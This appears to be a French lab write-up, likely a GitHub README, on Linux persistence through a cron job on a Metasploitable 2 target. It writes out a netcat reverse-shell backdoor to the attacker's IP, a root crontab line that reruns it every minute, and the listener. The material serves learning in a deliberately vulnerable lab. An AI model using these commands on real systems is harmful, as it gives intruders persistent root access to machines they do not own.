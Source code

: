 # Technique de Persistance sur Linux via Cron Job

Ce document détaille la mise en place d'une porte dérobée (backdoor) persistante sur un système Linux (Metasploitable 2) en utilisant une tâche planifiée (cron job).

## 🎯 Objectif

Assurer un accès `root` permanent à une machine compromise, même après un redémarrage du système.

## 🔬 Environnement du Laboratoire

-   **Machine Attaquante :** Kali Linux
-   **Machine Cible :** Metasploitable 2

## 👣 Méthodologie

### 1. Prise d'Accès Initial `root`
Un accès `root` initial a été obtenu en exploitant la vulnérabilité du service `distcc` avec Metasploit.

### 2. Création du Script de Backdoor
Un script de reverse shell simple a été créé directement sur la machine victime dans le répertoire `/root`.
-   **Commande :** `echo "nc [IP_KALI] 9999 -e /bin/bash" > /root/backdoor.sh`
-   Le script a ensuite été rendu exécutable avec `chmod +x`.

### 3. Mise en place de la Persistance
Une tâche planifiée a été ajoutée à la `crontab` de l'utilisateur `root` sans utiliser d'éditeur de texte (pour être compatible avec un shell non-interactif).
-   **Commande :** `echo "* * * * * /root/backdoor.sh" | crontab -`
-   **Vérification :** La commande `crontab -l` a confirmé la bonne installation de la tâche.

### 4. Test de Validation
-   Un écouteur Netcat a été lancé sur la machine Kali (`nc -lvnp 9999`).
-   La machine cible a été redémarrée (`reboot`).
-   **Résultat :** Dans la minute suivant le redémarrage, une connexion entrante a été reçue sur l'écouteur Netcat, fournissant un shell `root` immédiat. La persistance est fonctionnelle.

## 🧠 Compétences acquises
-   Compréhension et mise en place de techniques de persistance sur Linux.
-   Utilisation et manipulation des tâches planifiées (`cron jobs`).
-   Création de portes dérobées simples avec Netcat.
-   Gestion de la `crontab` via la ligne de commande pour les environnements limités.
